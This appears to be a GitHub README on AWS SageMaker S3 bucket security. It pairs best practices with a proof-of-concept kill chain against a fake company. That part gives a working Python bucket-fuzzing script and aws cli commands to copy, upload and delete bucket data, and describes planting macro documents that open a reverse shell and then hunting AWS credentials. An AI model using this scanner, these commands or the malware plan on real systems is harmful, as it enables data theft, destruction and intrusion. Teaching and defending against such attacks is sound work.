 # AWS Sagemaker S3 Bucket Vulnerabilities

## Sagemaker Architecture

![image](https://github.com/caadams4/s3-killchain/assets/79220528/8a74b556-61e3-4c8a-acf3-2c69f4561dda)

## s3 Buckets and Sagemaker

Protecting an S3 bucket used by AWS SageMaker is crucial for several reasons:

### 1. Data Security
- **Sensitive Data**: S3 buckets often store sensitive data, including training datasets, model artifacts, and output predictions. Unauthorized access could lead to data breaches and exposure of confidential information.
- **Compliance**: Many organizations must comply with regulations (e.g., GDPR, HIPAA) that require strict data protection measures. Ensuring the security of S3 buckets helps maintain compliance with these regulations.

### 2. Integrity of Data
- **Accurate Models**: The integrity of the training data is essential for developing accurate machine learning models. Unauthorized changes to the data can lead to corrupted or biased models, affecting their performance and reliability.
- **Traceability**: Protecting the data ensures that the lineage and provenance of the data are maintained, which is important for auditing and reproducibility.

### 3. Operational Continuity
- **Service Disruption**: Unauthorized access or malicious activities (e.g., data deletion, encryption by ransomware) can disrupt services. Ensuring proper security measures are in place helps maintain the availability and reliability of AWS SageMaker services.

## s3 Buckets Overview
Amazon S3 (Simple Storage Service) is a scalable object storage service provided by AWS. While it is designed for high availability, scalability, and secure storage of data, misconfigurations and misuse can lead to serious security vulnerabilities. Understanding these vulnerabilities is crucial for securing your data effectively.

## Common Vulnerabilities

### 1. **Misconfigured Bucket Permissions**
   - **Public Access:** S3 buckets can be configured to allow public access, either intentionally or accidentally. This can lead to unauthorized data exposure and breaches.
   - **Complex Access Policies:** Errors in bucket policies or IAM (Identity and Access Management) roles can result in unintended permissions, potentially allowing unauthorized users to access or modify data.

### 2. **Unsecured Data Transfers**
   - **Data in Transit:** Data not using SSL/TLS encryption during transfer is susceptible to interception by malicious actors.
   - **Encryption at Rest:** Failure to enable encryption at rest allows physically accessed data to be readable.

### 3. **Outdated Data Management Policies**
   - **Retention Policies:** Improperly managed data lifecycle policies can lead to retaining sensitive data longer than necessary, increasing the risk if the bucket is compromised.
   - **Deletion Policies:** Accidental or malicious deletion of important data due to lack of safeguards or backup strategies.

## Best Practices for Securing S3 Buckets
1. **Enable Bucket Encryption:** Always use server-side encryption (SSE) to protect data at rest.
2. **Use Secure Transport Protocols:** Enforce the use of HTTPS to secure data in transit.
3. **Implement Strong Access Controls:** Use IAM roles and bucket policies to strictly control who can access the data.
4. **Enable Logging and Monitoring:** Utilize AWS CloudTrail and other monitoring tools to keep an eye on bucket usage and access patterns.
5. **Regularly Review Permissions:** Periodically audit S3 buckets and IAM roles to ensure only necessary permissions are granted.

# Performing a PoC Attack on a vulnerable s3 Bucket

## Reconning an organization and scanning for misconfigured s3 buckets

Given a Website for a fake company `Sage` we can generate a wordlist that we can use for fuzzing webpages, subdomains, usernames, and s3 buckets.

We will use cewl to generate the wordlist: `cewl http://34.237.3.44/ -w bucket-names.txt`

Next: we'll fast-forward to fuzzing for s3 buckets. Here I have a custom Python3 script that takes in a wordlist and fuzzes for s3 buckets that are publically accessible.

```Python3
import argparse
import requests
from colorama import Fore, Back, Style
from colorama import init
init(autoreset=True) 

def scan_4_public_access(bucket_names):
    for bucket_name in bucket_names:
        url = f'http://{bucket_name}.s3.amazonaws.com/'
        response = requests.get(url)
        if response.status_code == 200:
            print(Fore.RED + Style.BRIGHT + f"*** Bucket {bucket_name} -- HIT!!! Publicly accessible! Dumping contents!*** ")
            print(response.text)  # This will print the contents of the bucket, if listing is enabled.
        else:
            print(Fore.GREEN + f"Bucket {bucket_name} -- miss")


def parse_wordlist(filename):
    """Reads a wordlist file and returns a list of lines."""
    try:
        with open(filename, 'r') as file:
            return [line.strip() for line in file if line.strip()]
    except FileNotFoundError:
        print(f"Error: The file '{filename}' does not exist.")
        return []
    except IOError as e:
        print(f"Error: Could not read file '{filename}'. {e}")
        return []


def main():
    parser = argparse.ArgumentParser(description="Parse a wordlist into a list.")
    parser.add_argument('wordlist', type=str, help="Filename of the wordlist")
    
    args = parser.parse_args()
    
    # Parse the wordlist file into a list called bucket_names
    bucket_names = parse_wordlist(args.wordlist)
    
    # Optionally, print or process the bucket_names list here to demonstrate functionality
    print("Scanning buckets for public access!")

    scan_4_public_access(bucket_names)


if __name__ == "__main__":
    main()
```

## Steal, manipulate, upload malware

We can manipulate the data with aws cli tools

* **List bucket contents** `aws s3 ls s3://securetrust/`
* **Download bucket data** `aws s3 cp s3://securetrust/ . --recursive`
* **Upload to bucket** `aws s3 cp scan.py s3://securetrust/`
* **Delete bucket data** `aws s3 rm s3://securetrust/fraudTrain.csv`

**Uploading Malware**

We can upload infected Microsoft Office documents to the bucket in hopes that an employee who manages AWS Sagemaker will open it out of curiosity.

Here is a Macro embedded into a Microsoft Office file that will connect to a command and control server that I control. 

![image](https://github.com/caadams4/s3-killchain/assets/79220528/3ec9efb7-f380-4276-b0bf-37b8a3b60b73)

**Getting a reverse shell**

Once the user opens the document a reverse shell is triggered: 

![image](https://github.com/caadams4/s3-killchain/assets/79220528/096135b4-cce4-4879-b6ac-144e021ab17f)

**Post-Exploitation**

After obtaining access to the victim machine, it will be necessary to perform privilege escalation plunder the contents of their files in search of IAM or other AWS credentials stored in environment variables or credential files. 

## A simple fix

The s3 bucket we exploited was publically accessible with read/write privileges. To fix this create another new bucket checking `ACLs disabled` and enable `Block Public Access` during creation.  

![image](https://github.com/caadams4/s3-killchain/assets/79220528/3b5e6756-355c-4b74-87c4-b0b56fc29a31)




## Conclusion
Securing an AWS S3 bucket requires careful attention to configuration settings and access controls. By understanding common vulnerabilities and adopting best practices, organizations can significantly mitigate risks associated with S3 storage.
